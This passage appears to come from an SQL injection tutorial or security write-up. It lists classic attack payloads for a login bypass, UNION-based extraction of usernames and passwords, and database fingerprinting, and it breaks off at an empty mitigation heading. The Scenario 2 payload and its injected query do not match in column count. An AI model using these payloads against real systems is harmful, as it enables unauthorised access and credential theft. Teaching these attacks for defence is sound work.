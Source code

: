 ## Exploitation Scenarios

### Scenario 1: Authentication Bypass

**Target:** Login form  
**Payload:** `admin' OR '1'='1' --`

```sql
-- Original Query
SELECT * FROM users WHERE username='admin' AND password='[user_input]'

-- Injected Query
SELECT * FROM users WHERE username='admin' OR '1'='1' --' AND password='...'
                                              ↑ Always true, comment out rest
```

**Result:** Bypass authentication, access admin account

### Scenario 2: Data Exfiltration

**Target:** Search functionality  
**Payload:** `' UNION SELECT username, password, email FROM users--`

```sql
-- Original Query
SELECT product_name, price FROM products WHERE category='[user_input]'

-- Injected Query
SELECT product_name, price FROM products WHERE category='' 
UNION SELECT username, password FROM users--'
```

**Result:** Extract all usernames and passwords

### Scenario 3: Database Fingerprinting

**Payloads:**
```sql
-- MySQL
' AND @@version LIKE '%MySQL%'--

-- PostgreSQL
' AND version() LIKE '%PostgreSQL%'--

-- SQL Server
' AND @@version LIKE '%Microsoft%'--

-- Oracle
' AND (SELECT banner FROM v$version WHERE ROWNUM=1) LIKE '%Oracle%'--
```

**Result:** Identify database type for targeted attacks

## Mitigation Strategies

